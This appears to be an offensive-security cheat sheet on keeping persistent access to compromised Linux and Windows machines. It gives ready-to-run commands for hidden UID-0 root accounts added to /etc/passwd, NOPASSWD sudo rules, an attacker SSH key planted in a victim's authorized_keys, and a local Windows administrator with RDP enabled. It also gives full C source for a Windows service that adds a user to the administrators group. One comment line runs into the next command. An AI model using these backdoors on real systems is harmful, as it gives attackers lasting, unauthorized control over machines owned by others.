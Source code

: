 ## Linux

- Write some **backdoor** in **web error pages** or `www-data` public files
- create a **new user** (with **SSH enabled** or directly root)
    
    ```bash
    $ openssl passwd evil		# Generteing the password hash
    AK24fcSx2Il3I
    
    $ useradd -o -u0 -g0 -N -d /root/ -s /bin/bash -M -p 'AK24fcSx2Il3I' evilroot	# Creates a new secondary root user
    
    $ useradd  -p "AK24fcSx2Il3I" -s /bin/bash eviluser	# Creates a new user and add it to sudo group
    $ usermod -aG sudo eviluser
    
    $ echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd			# Injects a new secondary root user directly into passwd file
    $ echo "root3:AK24fcSx2Il3I:0:0:Super-User:/root:/usr/bin/bash" >> /etc/passwd 	# Solaris version$ vim /etc/sudoers
    user1 ALL=(ALL) NOPASSWD: ALL
    ```
    
- **edit `passwd` credentials** for already existing users
- add **normal user** to `sudoers`
    
    ```bash
    $ vim /etc/sudoers
    user1 ALL=(ALL) NOPASSWD: ALL
    
    ```
    
- **edit SSH key** for existing users
    
    ```bash
    	$ ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N "" # one-liner
    	$ cat sshkey | xclip -sel c
    	
    	# On the victim machine
    	$ echo <your key> >> ~/.ssh/authorized_keys
    ```
    
- backdoors in **cron jobs**

---

## Windows

- create a **new user** with **RDP enabled**
    
    ```powershell
    net user maoutis Qwerty123! /add
    net localgroup Administrators maoutis /add
    net localgroup "Remote Desktop Users" maoutis /ADD
    ```

- custom binary executing our commands
```c
#include <windows.h>  
#include <stdio.h>  
  
#define SLEEP_TIME 5000  
  
SERVICE_STATUS ServiceStatus;  
SERVICE_STATUS_HANDLE hStatus;  
  
void ServiceMain(int argc, char** argv);  
void ControlHandler(DWORD request);  
  
//add the payload here  
int Run()  
{  
system("cmd /k net localgroup administrators user /add");  
return 0;  
}  
  
int main()  
{  
SERVICE_TABLE_ENTRY ServiceTable[2];  
ServiceTable[0].lpServiceName = "MyService";  
ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;  
  
ServiceTable[1].lpServiceName = NULL;  
ServiceTable[1].lpServiceProc = NULL;  
  
StartServiceCtrlDispatcher(ServiceTable);  
return 0;  
}  
  
void ServiceMain(int argc, char** argv)  
{  
ServiceStatus.dwServiceType = SERVICE_WIN32;  
ServiceStatus.dwCurrentState = SERVICE_START_PENDING;  
ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;  
ServiceStatus.dwWin32ExitCode = 0;  
ServiceStatus.dwServiceSpecificExitCode = 0;  
ServiceStatus.dwCheckPoint = 0;  
ServiceStatus.dwWaitHint = 0;  
  
hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler);  
Run();  
  
ServiceStatus.dwCurrentState = SERVICE_RUNNING;  
SetServiceStatus (hStatus, &ServiceStatus);  
  
while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)  
{  
Sleep(SLEEP_TIME);  
}  
return;  
}  
  
void ControlHandler(DWORD request)  
{  
switch(request)  
{  
case SERVICE_CONTROL_STOP:  
ServiceStatus.dwWin32ExitCode = 0;  
ServiceStatus.dwCurrentState = SERVICE_STOPPED;  
SetServiceStatus (hStatus, &ServiceStatus);  
return;  
  
case SERVICE_CONTROL_SHUTDOWN:  
ServiceStatus.dwWin32ExitCode = 0;  
ServiceStatus.dwCurrentState = SERVICE_STOPPED;  
SetServiceStatus (hStatus, &ServiceStatus);  
return;  
  
default:  
break;  
}  
SetServiceStatus (hStatus, &ServiceStatus);  
return;  
}
```